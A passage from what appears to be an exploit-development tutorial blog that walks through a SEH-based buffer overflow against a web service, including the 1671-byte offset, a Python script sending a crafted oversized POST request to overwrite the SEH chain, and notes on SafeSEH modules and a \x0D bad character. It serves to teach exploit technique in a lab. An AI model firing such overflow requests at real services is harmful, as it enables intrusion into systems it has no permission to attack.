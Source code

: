
If we click on the address of the previous SEH handler and then scroll up to the beginning of our A's, we can see that it takes 687 hex bytes, or 1671 bytes to overwrite the previous SEH handler.

[![](https://4.bp.blogspot.com/-GdqEZIhVJWI/VDQ5W5daFEI/AAAAAAAAAXE/065IBKAsmX4/s0/Windows%2B7%2BProfessional%2B-%2BVMware%2BPlayer%2B(Non-commercial%2Buse%2Bonly)_007.png)](https://4.bp.blogspot.com/-GdqEZIhVJWI/VDQ5W5daFEI/AAAAAAAAAXE/065IBKAsmX4/s0/Windows%2B7%2BProfessional%2B-%2BVMware%2BPlayer%2B(Non-commercial%2Buse%2Bonly)_007.png)

Lets test this theory out:

```python
#!/bin/python
import socket

initial = "A" * 1671
previousSEH = "D" * 4
SEHHandle = "C" * 4
restOfBuffer = "A" * (2050 - (len(initial) + len(previousSEH) + len(SEHHandle)))

buffer = "POST /" + initial + previousSEH + SEHHandle + restOfBuffer + " HTTP/1.1\r\n"
buffer += "User-Agent: Wget/1.13.4\r\n"
buffer += "Host: 192.168.99.142:8080\r\n"
buffer += "Accept: */*\r\n"
buffer += "Connection: Keep-Alive\r\n"
buffer += "Content-Type: application/x-www-form-urlencoded\r\n"
buffer += "Content-Length: 4"
buffer += "\r\n\r\n"
buffer += "licenseID=string&content=string&paramsXML=string"

handle = socket.socket(socket.AF_INET, socket.SOCK_STREAM)
handle.connect(("192.168.82.129", 8080))
handle.send(buffer)
handle.close()
```

If we send this to the target and then observe the SEH chain afterwards, we can see that we successfully overwrite the current and previous SEH handler.

[![](https://3.bp.blogspot.com/-NwD8kIvoSHI/VDQ_JO9hH7I/AAAAAAAAAXc/KOUpARo3tSE/s0/Windows%2B7%2BProfessional%2B-%2BVMware%2BPlayer%2B(Non-commercial%2Buse%2Bonly)_009.png)](https://3.bp.blogspot.com/-NwD8kIvoSHI/VDQ_JO9hH7I/AAAAAAAAAXc/KOUpARo3tSE/s0/Windows%2B7%2BProfessional%2B-%2BVMware%2BPlayer%2B(Non-commercial%2Buse%2Bonly)_009.png)

## A Problem Appears

At this point we run into a small problem. When looking at the available modules in mona to find what ones are not SafeSEH enabled, we see that only the application itself is not SafeSEH enabled:

[![](https://1.bp.blogspot.com/-7-K5-VkeyK0/VDRYXvtJLMI/AAAAAAAAAY8/8w1SSw14R3Q/s0/Windows%2B7%2BProfessional%2B-%2BVMware%2BPlayer%2B(Non-commercial%2Buse%2Bonly)_018.png)](https://1.bp.blogspot.com/-7-K5-VkeyK0/VDRYXvtJLMI/AAAAAAAAAY8/8w1SSw14R3Q/s0/Windows%2B7%2BProfessional%2B-%2BVMware%2BPlayer%2B(Non-commercial%2Buse%2Bonly)_018.png)

Further experimentation reveals the end of the request is being terminated by a `\x0D` byte. Because of this we can't even use a 3 byte overwrite and rely on the null terminator to supply the final `\x00` we need to use addresses from the binary itself.
